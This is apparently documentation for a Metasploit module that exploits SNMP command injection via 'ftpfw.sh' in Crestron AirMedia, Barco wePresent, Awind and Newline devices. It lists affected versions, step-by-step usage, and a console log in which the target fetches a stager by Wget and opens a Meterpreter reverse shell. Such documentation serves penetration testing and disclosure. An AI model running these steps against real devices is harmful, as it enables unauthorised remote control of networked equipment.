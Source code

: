 ## Vulnerable Application

This module exploits a vulnerability found in AwindInc and OEM'ed products where untrusted inputs are fed to `ftpfw.sh` system command, leading to command injection.

Note: a valid SNMP read-write community is required to exploit this vulnerability.

The following devices are known to be affected by this issue:

* Crestron Airmedia AM-100 <= version 1.5.0.4
* Crestron Airmedia AM-101 <= version 2.5.0.12
* Awind WiPG-1600w <= version 2.0.1.8
* Awind WiPG-2000d <= version 2.1.6.2
* Barco wePresent 2000 <= version 2.1.5.7
* Newline Trucast 2 <= version 2.1.0.5
* Newline Trucast 3 <= version 2.1.3.7

Other devices might be affected by the same issue but lack of access to firmware forbids me from confirming that. See https://github.com/QKaiser/awind-research for full list of similar devices.

## Verification Steps

1. Start `msfconsole`
2. Do: `use exploit/linux/snmp/awind_snmp_exec`
3. Do: `set payload linux/armle/meterpreter/reverse_tcp`
4. Do: `set RHOST [IP]`
5. Do: `set LHOST [IP]`
6. Do: `run`

You should get a session.

## Scenarios

```
msf5 > use exploit/linux/snmp/awind_snmp_exec
msf5 exploit(linux/snmp/awind_snmp_exec) > set payload linux/armle/meterpreter/reverse_tcp 
payload => linux/armle/meterpreter/reverse_tcp
msf5 exploit(linux/snmp/awind_snmp_exec) > set RHOSTS 192.168.100.2
RHOSTS => 192.168.100.2
msf5 exploit(linux/snmp/awind_snmp_exec) > set LHOST 192.168.100.1
LHOST => 192.168.100.1
msf5 exploit(linux/snmp/awind_snmp_exec) > check

[*] Target system is Crestron Electronics AM-100 (Version 2.6.0.6)
[+] 192.168.100.2:161 The target is vulnerable.
msf5 exploit(linux/snmp/awind_snmp_exec) > run

[*] Started reverse TCP handler on 192.168.100.1:4444 
[*] Using URL: http://0.0.0.0:8080/u70HALC
[*] Local IP: http://192.168.1.10:8080/u70HALC
[*] Injecting payload
[*] Injection successful
[*] Triggering call
[*] Trigger successful
[*] Client 192.168.100.2 (Wget) requested /u70HALC
[*] Sending payload to 192.168.100.2 (Wget)
[*] Sending stage (806872 bytes) to 192.168.100.2
[*] Command Stager progress - 100.00% done (113/113 bytes)
[*] Meterpreter session 2 opened (192.168.100.1:4444 -> 192.168.100.2:38009) at 2019-03-28 11:01:41 +0100
[*] Server stopped.

meterpreter > sysinfo
Computer     : Crestron.AirMedia-1.1.wm8750
OS           :  (Linux 2.6.32.9-default)
Architecture : armv6l
BuildTuple   : armv5l-linux-musleabi
Meterpreter  : armle/linux
```
